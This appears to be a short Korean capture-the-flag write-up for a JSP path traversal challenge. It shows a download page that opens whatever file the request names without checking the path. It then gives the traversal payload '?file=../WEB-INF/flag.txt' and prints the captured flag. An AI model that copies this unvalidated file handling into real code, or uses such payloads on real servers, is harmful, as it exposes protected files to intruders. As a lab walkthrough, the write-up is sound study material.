

## jsp-pathtraversal

```python
//download.jsp
String f = request.getParameter("file");
if (f == null) { out.println("usage: ?file=report1.txt"); }
else {
    String base = application.getRealPath("/files/");
    File target = new File(base, f);   // 취약점: 경로 검증 없음 → ../ 로 상위 접근
    try (FileInputStream in = new FileInputStream(target)) {
        response.setContentType("text/plain");
        byte[] b = new byte[in.available()];
        in.read(b);
        out.print(new String(b));
    } catch (Exception e) { out.println("error: " + e.getMessage()); }
}
```

`download.jsp?file=` 이 경로 검증을 하고 있지 않아 pathtraversal 취약점이 발생함을 알 수 있다.

```python
?file=../WEB-INF/flag.txt
```

해당 경로로 url 요청을 날리니 flag를 획득 할 수 있었다.



flag{ccc3d3e3ba8d58dbf59c}
